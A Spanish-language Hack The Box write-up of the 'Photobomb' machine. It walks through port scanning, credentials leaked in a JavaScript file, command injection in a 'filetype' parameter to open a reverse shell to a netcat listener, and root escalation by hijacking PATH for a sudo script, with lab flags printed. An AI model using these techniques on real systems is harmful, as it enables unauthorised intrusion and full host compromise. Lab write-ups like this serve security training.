 ```yaml
---
layout: single
title: Photobomb - Hack The Box
excerpt: "Photobomb es una maquina de dificultad facil donde en el propio codigo de la pagina web hay un archivo JS donde obtenemos el nombre de usuario y su contraseña para acceder a una ruta en la cual no teniamos acceso despues abusamos del parametro filetype para obtener una reverse shell y para la escalada de privilegios vamos a usar un path traverse para obtener una shell como root"
date: 2023-02-18
classes: wide
header:
  teaser: /assets/images/htb-writeup-photobomb/new.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - hackthebox
  - infosec
tags:  
  - FileType
  - Sudoers privilege
---
```


<p align="center">
<img src="/assets/images/htb-writeup-photobomb/icon.png">
</p>

## PortScan

```bash
❯ nmap -sCV -p22,80 10.10.11.182 -oN targeted
Starting Nmap 7.93 ( https://nmap.org ) at 2023-02-18 18:08 CST
Nmap scan report for photobomb.htb (10.10.11.182)
Host is up (0.28s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 e22473bbfbdf5cb520b66876748ab58d (RSA)
|   256 04e3ac6e184e1b7effac4fe39dd21bae (ECDSA)
|_  256 20e05d8cba71f08c3a1819f24011d29e (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Photobomb
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.88 seconds
```

Vemos que hay un subdominio hay que agregarlo al `/etc/hosts`

```bash
❯ whatweb http://10.10.11.182
http://10.10.11.182 [302 Found] Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][nginx/1.18.0 (Ubuntu)], IP[10.10.11.182], RedirectLocation[http://photobomb.htb/], Title[302 Found], nginx[1.18.0]
http://photobomb.htb/ [200 OK] Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][nginx/1.18.0 (Ubuntu)], IP[10.10.11.182], Script, Title[Photobomb], UncommonHeaders[x-content-type-options], X-Frame-Options[SAMEORIGIN], X-XSS-Protection[1; mode=block], nginx[1.18.0]
```

```bash
❯ cat /etc/hosts | grep photobomb
10.10.11.182 photobomb.htb
```

Funciona

```
❯ ping -c 1 photobomb.htb
PING photobomb.htb (10.10.11.182) 56(84) bytes of data.
64 bytes from photobomb.htb (10.10.11.182): icmp_seq=1 ttl=63 time=1261 ms

--- photobomb.htb ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 1260.996/1260.996/1260.996/0.000 ms
```

Vamos a inspeccionar la pagina web que corre en el puerto 80

![](/assets/images/htb-writeup-photobomb/Web1.png)

Vemos que si damos click en `click here` nos muestra este panel de autenticacion

![](/assets/images/htb-writeup-photobomb/Web2.png)

No tenemos credenciales por el momento asi que podemos ver el codigo fuente

![](/assets/images/htb-writeup-photobomb/Web3.png)

Vemos que hay un archivo `.js` vamos a ver que es lo que tiene

```bash
❯ curl http://photobomb.htb/photobomb.js
```
```js
function init() {
  // Jameson: pre-populate creds for tech support as they keep forgetting them and emailing me
  if (document.cookie.match(/^(.*;)?\s*isPhotoBombTechSupport\s*=\s*[^;]+(.*)?$/)) {
    document.getElementsByClassName('creds')[0].setAttribute('href','http://pH0t0:b0Mb!@photobomb.htb/printer');
  }
}
window.onload = init;
```

Nos esta dando un enlace si lo copiamos y pegamos vemos que nos autentica automaticamente y nos muestra esta web

![](/assets/images/htb-writeup-photobomb/Web4.png)

En la parte de del boton rojo vemos que podemos descargar una foto vamos a interceptar con `burpsuite` la peticion

Al interceptar nos muestra esto

![](/assets/images/htb-writeup-photobomb/inter.png)

En la parte de `filetype` vemos que hay es donde esta definiendo la extencion del archivo que queremos asi que podemos tratar de concatenar un comando y directamente vamos a enviarnos una reverse shell 

![](/assets/images/htb-writeup-photobomb/code.png)

<https://www.revshells.com/>

Una vez puesto hay vamos a ponernos en escucha en el puerto `443` para recibir la `shell`

![](/assets/images/htb-writeup-photobomb/listo.png)

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
```

Ahora damos a `forward` para recibir la shell

![](/assets/images/htb-writeup-photobomb/forward.png)

Funciona

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.113] from (UNKNOWN) [10.10.11.182] 45146
bash: cannot set terminal process group (715): Inappropriate ioctl for device
bash: no job control in this shell
wizard@photobomb:~/photobomb$ 
```

Para poder hacer `ctrl+c` podemos hacer

```bash
script /dev/null -c bash
CTRL+Z
stty raw -echo; fg
reset xterm
ENTER
```

Podemos ver la primer flag

```bash
wizard@photobomb:~$ cat user.txt 
857825188e86ff89aee311f10870e0ec
wizard@photobomb:~$ 
```

Nada interesante

```bash
wizard@photobomb:/$ find / -perm -4000 2>/dev/null
/usr/bin/gpasswd
/usr/bin/fusermount
/usr/bin/chfn
/usr/bin/sudo
/usr/bin/at
/usr/bin/su
/usr/bin/passwd
/usr/bin/mount
/usr/bin/chsh
/usr/bin/newgrp
/usr/bin/umount
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
wizard@photobomb:/$ 
```

## Escalada de Privilegios

Si hacemos un `sudo -l` podemos ejecutar este `script` y setear variables de enterno

```bash
wizard@photobomb:/$ sudo -l
Matching Defaults entries for wizard on photobomb:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User wizard may run the following commands on photobomb:
    (root) SETENV: NOPASSWD: /opt/cleanup.sh
wizard@photobomb:/$ 
```

Vamos a ver el script y esta usuando el comando `find` que encontramos en la ultima linea lo que esta haciendo es que

```
Esta buscando todos los archivos con extensión ".jpg" en el directorio "source_images" y sus subdirectorios, y cambia el propietario y grupo de cada archivo encontrado a "root:root".
```

```bash
wizard@photobomb:/$ cat /opt/cleanup.sh
#!/bin/bash
. /opt/.bashrc
cd /home/wizard/photobomb

# clean up log files
if [ -s log/photobomb.log ] && ! [ -L log/photobomb.log ]
then
  /bin/cat log/photobomb.log > log/photobomb.log.old
  /usr/bin/truncate -s0 log/photobomb.log
fi

# protect the priceless originals
find source_images -type f -name '*.jpg' -exec chown root:root {} \;
wizard@photobomb:/$ 
```

`Tenemos la capacidad de modificar variables como el 'path' para utilizar un comando 'find' personalizado. Además, si ejecutamos el comando 'find' con privilegios de administrador, el 'find' se ejecutará con permisos de root.`


```bash
wizard@photobomb:~$ echo bash > find
wizard@photobomb:~$ chmod +x find
```

Ahora somos root

```
wizard@photobomb:~$ sudo PATH=$PWD:$PATH /opt/cleanup.sh
root@photobomb:/home/wizard/photobomb# whoami
root
root@photobomb:/home/wizard/photobomb# cd /root
root@photobomb:~# cat root.txt 
bc2ba4ec7d130530e08a60ce6b034fde
root@photobomb:~# 
```
